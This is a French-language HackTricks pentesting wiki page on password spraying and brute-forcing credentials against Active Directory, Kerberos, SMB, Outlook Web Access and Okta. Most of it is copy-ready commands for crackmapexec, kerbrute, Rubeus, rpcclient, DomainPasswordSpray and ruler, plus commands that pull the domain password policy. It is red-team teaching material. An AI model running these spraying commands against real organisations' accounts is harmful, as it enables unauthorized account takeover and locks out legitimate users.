 # Password Spraying / Brute Force

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}

## **Password Spraying**

Une fois que vous avez trouvé plusieurs **noms d'utilisateur valides**, vous pouvez essayer les **mots de passe les plus courants** (gardez à l'esprit la politique de mot de passe de l'environnement) avec chacun des utilisateurs découverts.\
Par **défaut**, la **longueur minimale** du **mot de passe** est de **7**.

Des listes de noms d'utilisateur courants pourraient également être utiles : [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

Notez que vous **pourriez verrouiller certains comptes si vous essayez plusieurs mots de passe incorrects** (par défaut plus de 10).

### Obtenir la politique de mot de passe

Si vous avez des identifiants utilisateur ou un shell en tant qu'utilisateur de domaine, vous pouvez **obtenir la politique de mot de passe avec** :
```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10;
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```
### Exploitation depuis Linux (ou tout)

* Utiliser **crackmapexec :**
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```
* Utilisation de [**kerbrute**](https://github.com/ropnop/kerbrute) (Go)
```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```
* [**spray**](https://github.com/Greenwolf/Spray) _**(vous pouvez indiquer le nombre de tentatives pour éviter les verrouillages) :**_
```bash
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```
* Utilisation de [**kerbrute**](https://github.com/TarlogicSecurity/kerbrute) (python) - NON RECOMMANDÉ PARFOIS NE FONCTIONNE PAS
```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```
* Avec le module `scanner/smb/smb_login` de **Metasploit** :

![](<../../.gitbook/assets/image (745).png>)

* En utilisant **rpcclient** :
```bash
# https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/
for u in $(cat users.txt); do
rpcclient -U "$u%Welcome1" -c "getusername;quit" 10.10.10.10 | grep Authority;
done
```
#### Depuis Windows

* Avec la version de [Rubeus](https://github.com/Zer1t0/Rubeus) avec le module de brute :
```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
* Avec [**Invoke-DomainPasswordSpray**](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) (Il peut générer des utilisateurs à partir du domaine par défaut et il obtiendra la politique de mot de passe du domaine et limitera les essais en conséquence) :
```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
* Avec [**Invoke-SprayEmptyPassword.ps1**](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1)
```
Invoke-SprayEmptyPassword
```
## Force brute

{% code overflow="wrap" %}
```bash
legba kerberos --target 127.0.0.1 --username admin --password wordlists/passwords.txt --kerberos-realm example.org
```
{% endcode %}

## Outlook Web Access

Il existe plusieurs outils pour p**assword spraying outlook**.

* Avec [MSF Owa\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa\_login/)
* avec [MSF Owa\_ews\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa\_ews\_login/)
* Avec [Ruler](https://github.com/sensepost/ruler) (fiable !)
* Avec [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Powershell)
* Avec [MailSniper](https://github.com/dafthack/MailSniper) (Powershell)

Pour utiliser l'un de ces outils, vous avez besoin d'une liste d'utilisateurs et d'un mot de passe / d'une petite liste de mots de passe à pulvériser.
```bash
./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
[x] Failed: larsson:Summer2020
[x] Failed: cube0x0:Summer2020
[x] Failed: a.admin:Summer2020
[x] Failed: c.cube:Summer2020
[+] Success: s.svensson:Summer2020
```
## Google

* [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)

## Okta

* [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)
* [https://github.com/Rhynorater/Okta-Password-Sprayer](https://github.com/Rhynorater/Okta-Password-Sprayer)
* [https://github.com/knavesec/CredMaster](https://github.com/knavesec/CredMaster)

## Références

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying)
* [https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell](https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell)
* [www.blackhillsinfosec.com/?p=5296](https://www.blackhillsinfosec.com/?p=5296)
* [https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying](https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Approfondissez votre expertise en **Sécurité Mobile** avec 8kSec Academy. Maîtrisez la sécurité iOS et Android grâce à nos cours à votre rythme et obtenez une certification :

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
